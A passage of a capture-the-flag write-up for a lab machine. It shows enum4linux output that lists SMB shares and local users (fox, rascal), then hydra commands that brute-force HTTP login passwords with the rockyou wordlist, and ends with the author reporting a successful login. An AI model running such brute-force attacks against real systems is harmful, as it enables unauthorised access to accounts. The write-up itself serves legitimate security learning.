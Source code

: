 #enum4lin
```
 ========================================= 
|    Share Enumeration on 10.10.129.51    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))

	SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.129.51
//10.10.129.51/yotf	Mapping: DENIED, Listing: N/A
//10.10.129.51/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
```
We got the usernames directly I'm gonna start hydra

```
hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.129.51 http-head /
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.129.51 http-head /
```

![webrascal](./pics/webrascal.png)

Thx Hydra! Lets login!

![web3](./pics/webserver2.png)
